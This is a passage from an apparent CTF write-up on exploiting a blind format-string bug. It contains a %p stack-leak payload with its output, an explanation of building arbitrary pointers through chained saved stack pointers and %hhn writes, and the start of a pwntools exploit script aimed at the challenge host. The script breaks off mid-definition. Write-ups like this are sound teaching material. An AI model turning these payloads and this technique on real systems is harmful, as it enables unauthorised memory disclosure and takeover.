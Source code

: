```
0x7f60f5e73a03
```
Aha! It is vulnerable to a format string vulnerability. I then sent the following payload to identify my user-controlled buffer hopefully in stack.
```
AAAABBBB.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
AAAABBBB.0x7f8ea2940a03.(nil).0x7f8ea2940980.0x5647b7e9d0a0.(nil).0x7ffcea9d97d0.0x5647b7e9a2e0.(nil).0x7f8ea277c0b3.0x7f8ea2979620.0x7ffcea9d97d8.0x100000000.0x5647b7e9a100.0x5647b7e9a2e0.0x23f94e9d138646bf.0x5647b7e9a1f0.0x7ffcea9d97d0.(nil).(nil).0xdc009ba63e6646bf.0xdce40a72934846bf.(nil).(nil).(nil).0x1.0x7ffcea9d97d8.0x7ffcea9d97e8.0x7f8ea297b190.(nil).(nil).0x5647b7e9a1f0.0x7ffcea9d97d0.(nil).(nil).0x5647b7e9a21e.0x7ffcea9d97c8.0x1c.0x1.0x7ffcea9daf5c.(nil).0x7ffcea9daf61.0x7ffcea9dafa3.
```
GG. I couldn't see any indication that my "AAAABBBB" payload was showing up in the leak of the stack, which probably means my controlled buffer lies in the heap or other writable memory not in the stack. This was bad because I need a controlled pointer in stack in order to effectively turn a format string vulnerability into an arbitrary read/write primitive to dump the binary. Fortunately, there is a solution. The solution lies in the idea that due to the nature of the `System V x86-64 ABI` stack and calling convention commonly used, there are saved base pointers lying in stack, which are pointers to higher stack addresses (down the stack). Looking at an example execution of `/bin/ls`
```
gef➤  deref $sp
      0x00007fffffffea80│+0x0000: 0x0000000000000078 ("x"?)    ← $rsp
      0x00007fffffffea88│+0x0008: 0x0000000000000000
      0x00007fffffffea90│+0x0010: 0x000055555556a2c0  →   push r15
      0x00007fffffffea98│+0x0018: 0x0000555555559850  →   xor ebp, ebp
      0x00007fffffffeaa0│+0x0020: 0x00007fffffffeb80  →  0x0000000000000001
      0x00007fffffffeaa8│+0x0028: 0x00007ffff77ddafc  →  <__libc_start_main+76> mov rdx, QWORD PTR [rip+0x3c9355]        # 0x7ffff7ba6e58
      0x00007fffffffeab0│+0x0030: 0x0000000000000065 ("e"?)
[1]   0x00007fffffffeab8│+0x0038: 0x00007fffffffeb88  →  0x00007fffffffedb5  →  0x00736c2f6e69622f ("/bin/ls"?)
```
We can see pointers like `[1]` which form a sort of chain of stack pointers. This may not seem that useful at first, but can actually be used to form arbitrary data in the stack. The general concept is like so
```
stack ptr 1 -> stack ptr 2 -> somewhere in the stack
```
We make use of the `%hhn` technique to overwrite the 1 byte of data pointed to by `stack ptr 1` which is the least significant byte of `stack ptr 2`, then `stack ptr 2` can be constantly changed to act as a sort of "cursor" that moves along the stack, allowing us to write to `stack ptr 2` byte-by-byte and form arbitrary data (like pointers!) in the stack. With this we can form an arbitrary pointer and start leaking data. I did some further optimisation and made use of DynELF to prepare the script to leak the binary. I had improved on [two](https://blog.idiot.sg/2018-09-04/tokyowesterns-ctf-2018-neighbour-c/) previous [implementations](https://github.com/ZetaTwo/pwny-racing-solutions/blob/master/challenges/challenge07-episode4/Lord_Idiot/exploit.py) of this technique to prepare the following script.

{% highlight Python %}
from pwn import *

r = remote("fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg", 42000)
r.recvuntil("Implemented\n")

def f(s):
    sleep(0.1)
    r.sendline(s+"_END_")
    return r.recvuntil("_END_", drop=True)

# Stack reference
stack_leak = int(f("%84$p"), 16)-1-8*88
log.info("stack_leak: {:#x}".format(stack_leak))

def p2i(ptr):